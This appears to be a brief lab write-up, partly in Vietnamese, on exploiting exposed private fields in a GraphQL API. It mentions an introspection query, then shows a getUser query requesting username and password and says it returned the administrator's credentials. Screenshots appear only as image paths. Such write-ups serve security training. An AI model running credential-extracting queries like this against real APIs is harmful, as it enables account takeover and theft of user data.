


# Lab: Accidental exposure of private GraphQL fields

sau khi kiểm tra introspection query, có bảng:


Thử query để lấy dữ liệu từ bảng User với query `getUser`:
```
{
  getUser (id: 1) {
    username
    password
  }
}
```

kết quả nhận về là credential của administrator:
